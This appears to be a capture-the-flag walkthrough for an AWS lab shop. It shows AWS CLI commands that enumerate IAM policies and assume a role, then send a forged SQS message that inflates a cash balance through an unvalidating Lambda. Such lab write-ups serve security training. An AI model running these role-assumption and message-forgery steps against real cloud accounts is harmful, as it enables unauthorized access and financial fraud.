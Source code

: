   
1. The attacker accesses the web page and identifies the features first

    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.  
  
---

2. The attacker checks the privileges it has
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [policy_name]
    # This command will view the inline policies granted to role.
    aws --profile [profile_name] iam list-role-policies --role-name [role_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-role-policy --role-name [role_name] --policy-name [policy_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
   
---  

3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >  
  -When charging the cash, a message is sent to the SQS service.  
  -The lambda function does not verify the received message.  
  -The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  
---  

4. Assume the the sending message role about SQS service
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```  
  
---  
  
5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue  
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```  
  
---  
  
6. Check the changed assets, purchase FLAG and check the secret-string
